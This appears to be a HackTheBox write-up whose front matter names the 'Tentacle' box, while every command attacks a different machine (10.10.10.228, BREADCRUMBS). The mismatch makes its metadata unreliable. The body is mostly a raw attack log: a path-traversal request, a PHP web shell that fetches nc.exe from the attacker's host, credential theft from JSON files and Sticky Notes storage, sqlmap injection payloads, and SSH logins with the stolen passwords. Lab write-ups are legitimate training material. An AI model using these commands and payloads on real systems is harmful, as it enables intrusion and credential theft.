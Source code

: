 ---
layout: menu
title: "HTB Tentacle"
description: "10.10.10.224 | 40 pts"
header-img: "boxes/screenshots/49_unbalanced/unbalanced.png"
tags: [hackthebox, htb, boot2root, writeup, linux, tentacle, squid, squid proxy, proxychains, wpad, web proxy auto-discovery, web proxy auto discovery, web proxy autodiscovery, wpad.dat, kerberos, kinit, klist, kadmin, ksu, kerberos principal, principals, user principal, service principal, keytab, k5login, rsync]
---

:filesdir: /boxes/files/63_tentacle/
:imagesdir: /boxes/screenshots/63_tentacle/
:page-liquid:
:source-highlighter: rouge

+++<h1 style="color:red">+++ HTB Tentacle (10.10.10.224) +++</h1>+++

---

:toc: 
:toc-title: TABLE OF CONTENTS

---

== PART 1 : INITIAL RECON

____
[source,shell,subs="verbatim,quotes"]
----
$ nmap --min-rate 3000 -oN nmap-tcp.initial -p- -Pn -T4 -v 10.10.10.228
  
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  135/tcp   open  msrpc
  139/tcp   open  netbios-ssn
  443/tcp   open  https
  445/tcp   open  microsoft-ds
  3306/tcp  open  mysql
  5040/tcp  open  unknown
  7680/tcp  open  pando-pub
  49664/tcp open  unknown
  49665/tcp open  unknown
  49666/tcp open  unknown
  49668/tcp open  unknown
  49669/tcp open  unknown


$ nmap -oN nmap-tcp -p 22,80,135,139,443,445,3306,5040,7680,49664,49665,49666,49668,49669 -Pn -sC -sV -v 10.10.10.228

  PORT      STATE SERVICE       VERSION
  22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 9d:d0:b8:81:55:54:ea:0f:89:b1:10:32:33:6a:a7:8f (RSA)
  |   256 1f:2e:67:37:1a:b8:91:1d:5c:31:59:c7:c6:df:14:1d (ECDSA)
  |_  256 30:9e:5d:12:e3:c6:b7:c6:3b:7e:1e:e7:89:7e:83:e4 (ED25519)
  80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
  |_http-title: Library
  135/tcp   open  msrpc         Microsoft Windows RPC
  139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
  443/tcp   open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
  |_http-title: Library
  | ssl-cert: Subject: commonName=localhost
  | Issuer: commonName=localhost
  | Public Key type: rsa
  | Public Key bits: 1024
  | Signature Algorithm: sha1WithRSAEncryption
  | Not valid before: 2009-11-10T23:48:47
  | Not valid after:  2019-11-08T23:48:47
  | MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
  |_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
  |_ssl-date: TLS randomness does not represent time
  | tls-alpn: 
  |_  http/1.1
  445/tcp   open  microsoft-ds?
  3306/tcp  open  mysql?
  | fingerprint-strings: 
  |   NULL: 
  |_    Host '10.10.14.11' is not allowed to connect to this MariaDB server
  5040/tcp  open  unknown
  7680/tcp  open  pando-pub?
  49664/tcp open  msrpc         Microsoft Windows RPC
  49665/tcp open  msrpc         Microsoft Windows RPC
  49666/tcp open  msrpc         Microsoft Windows RPC
  49668/tcp open  msrpc         Microsoft Windows RPC
  49669/tcp open  msrpc         Microsoft Windows RPC
  1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
  SF-Port3306-TCP:V=7.91%I=7%D=4/7%Time=606DA5C4%P=x86_64-pc-linux-gnu%r(NUL
  SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.11'\x20is\x20not\x20allowe
  SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb2-security-mode: 
  |   2.02: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2021-04-07T12:32:42
  |_  start_date: N/A

$ sudo nmap -oN nmap-tcp.scripts.smb -p 445 --script safe,vuln -sV -v 10.10.10.228
----
____

---

== PART 2 : PORT ENUMERATION

____
[source,shell,subs="verbatim,quotes"]
----
$ curl -X POST -d "title=a&author=&method=1&book=../../../../../../Users/www-data/desktop/xampp/htdocs/portal/" http://10.10.10.228/includes/bookController.php

PHPSESSID=paul47200b180ccd6835d25d034eeb6e6390 ; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU

$ curl http://10.10.10.228/portal/uploads/test.php?cmd=whoami

http://10.10.10.228/portal/uploads/test.php?cmd=dir%20C:\Users\Public\Music

http://10.10.10.228/portal/uploads/test.php?cmd=echo%20%22test%22%20%3E%20C:\Users\Publiv\Music\test

http://10.10.10.228/portal/uploads/test.php?cmd=curl.exe%20--help

http://10.10.10.228/portal/uploads/test.php?cmd=curl.exe%20--output%20C:\Users\Public\Music\nc.exe%20http://10.10.14.11/nc.exe

http://10.10.10.228/portal/uploads/test.php?cmd=curl.exe%20--output%20nc.exe%20http://10.10.14.11/nc.exe 
http://10.10.10.228/portal/uploads/test.php?cmd=cp%20C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads\nc.exe%20C:\Users\Public\Music\nc.exe




$ curl 'http://10.10.10.228/portal/uploads/test.php?cmd=type%20..\pizzaDeliveryUserData\juliette.json' 
<pre>{
	"pizza" : "margherita",
	"size" : "large",	
	"drink" : "water",
	"card" : "VISA",
	"PIN" : "9890",
	"alternate" : {
		"username" : "juliette",
		"password" : "jUli901./())!",
	}
}</pre> 

juliette@BREADCRUMBS C:\Users\juliette\Desktop>type todo.html
<html>
<style>
html{
background:black;        
color:orange;
}
table,th,td{
border:1px solid orange; 
padding:1em;
border-collapse:collapse;
}
</style>
<table>
        <tr>
            <th>Task</th>
            <th>Status</th>
            <th>Reason</th>
        </tr>
        <tr>
            <td>Configure firewall for port 22 and 445</td>
            <td>Not started</td>
            <td>Unauthorized access might be possible</td>
        </tr>
        <tr>
            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
            <td>In progress</td>
            <td>It stores passwords in plain text</td>
        </tr>
        <tr>
            <td>Add new features to password manager</td>
            <td>Not started</td>
            <td>To get promoted, hopefully lol</td>
        </tr>
</table>

</html>


PS C:\Users\juliette\AppData\Local> ls -rec | findstr Sticky 
d-----         1/15/2021   4:08 PM                Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe
    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe
    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\AC
    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\Settings
-a----         1/15/2021   4:08 PM           7894 


PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe> Get-Childitem -Path .\ -File -Recurse -ErrorAction SilentlyContinue


    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:10 PM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----        11/29/2020   3:10 AM           4096 plum.sqlite
-a----         1/15/2021   4:10 PM          32768 plum.sqlite-shm
-a----         1/15/2021   4:10 PM         329632 plum.sqlite-wal


    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\Settings


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:08 PM              0 roaming.lock
-a----         1/15/2021   4:10 PM           8192 settings.dat

PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> type plum.sqlite-wal | findstr development

\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g


development@BREADCRUMBS C:\Development>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Development

01/15/2021  05:03 PM    <DIR>          .
01/15/2021  05:03 PM    <DIR>          ..
11/29/2020  04:11 AM            18,312 Krypter_Linux
               1 File(s)         18,312 bytes
               2 Dir(s)   6,536,441,856 bytes free


$ scp development@10.10.10.228:/Development/Krypter_Linux ./  

$ strings Krypter_Linux                                                                                        1 ⨯

  Krypter V1.2
  New project by Juliette.
  New features added weekly!
  What to expect next update:
  	- Windows version with GUI support
  	- Get password from cloud and AUTOMATICALLY decrypt!
  Requesting decryption key from cloud...
  Account: Administrator
  http://passmanager.htb:1234/index.php
  method=select&username=administrator&table=passwords

$ sshpass -p "fN3)sN5Ee@g" ssh -l development -L 1234:127.0.0.1:1234 10.10.10.228

$ curl -G -d "method=select&username=administrator&table=passwords" http://127.0.0.1:1234/index.php  
          1 ⨯
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}

$ sqlmap -u "http://127.0.0.1:1234?method=select&username=administrator&table=passwords"

Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: method=select&username=administrator' AND 1822=1822 AND 'dvtL'='dvtL&table=passwords

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: method=select&username=administrator' AND (SELECT 5816 FROM (SELECT(SLEEP(5)))ZGgK) AND 'WHbz'='WHbz&table=passwords

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: method=select&username=administrator' UNION ALL SELECT CONCAT(0x7178627871,0x41477a5255654767684d6853556c6f7354786e4e6b46535159525a536948524466706841657a5552,0x71787a6a71)-- -&table=passwords


$ sqlmap -u "http://127.0.0.1:1234?method=select&username=administrator&table=passwords" --dump

+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+

$ echo "70    40      73      73      77      30      72      64      21      40      23      24      39      38
39      30
2e      2f" | tr -d "\t\n" | xxd -p -r
p@ssw0rd!@#$9890./ 

$ sshpass -p "p@ssw0rd!@#$9890./" ssh -l administrator -L 1234:127.0.0.1:1234 10.10.10.228
----
____

/portal/signup.php
/portal/authController.php
/portal/php/users.php
/portal/php/issues.php
/portal/php/files.php
http://10.10.10.228/portal/auth/login.php
